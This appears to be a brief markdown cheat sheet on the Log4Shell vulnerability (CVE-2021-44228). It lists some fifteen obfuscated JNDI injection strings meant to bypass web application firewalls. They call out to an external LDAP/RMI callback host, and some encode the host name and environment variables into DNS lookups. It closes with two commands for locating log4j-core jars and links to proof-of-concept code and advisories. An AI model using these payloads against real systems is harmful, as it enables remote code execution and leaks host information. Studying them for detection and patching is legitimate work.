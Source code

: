 ## CVE-2021-44228

### Waf bypass
```

${jndi:ldap://127.0.0.1:1389/ badClassName} 
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit} 
${${::-j}ndi:rmi://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit} 
${jndi:rmi://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk}
${${lower:jndi}:${lower:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit} 
${${lower:${lower:jndi}}:${lower:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit} 
${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit}
${${upper:jndi}:${upper:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit} 
${${upper:j}${upper:n}${lower:d}i:${upper:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit}
${${upper:j}${upper:n}${upper:d}${upper:i}:${lower:r}m${lower:i}}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://${hostName}.nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk}
${${upper::-j}${upper::-n}${::-d}${upper::-i}:${upper::-l}${upper::-d}${upper::-a}${upper::-p}://${hostName}.nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://${hostName}.${env:COMPUTERNAME}.${env:USERDOMAIN}.${env}.nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk}
```
### 查找
```
find . -name *.jar|grep log4j-core
mvn dependency:tree -Dincludes=org.apache.logging.log4j:log4j-core
```


### Ref
- https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2021/CVE-2021-44228.yaml
- https://gist.github.com/ZephrFish/32249cae56693c1e5484888267d07d39
- https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce
- https://github.com/jas502n/Log4j2-CVE-2021-44228
- http://slf4j.org/log4shell.html
- https://github.com/cldrn/codeql-queries/blob/master/log4j-injection.ql
- [Apache Log4j2 漏洞影响面查询](https://log4j2.huoxian.cn/layout)
- [Security Advisories / Bulletins linked to Log4Shell (CVE-2021-44228)](https://gist.github.com/SwitHak/b66db3a06c2955a9cb71a8718970c592)
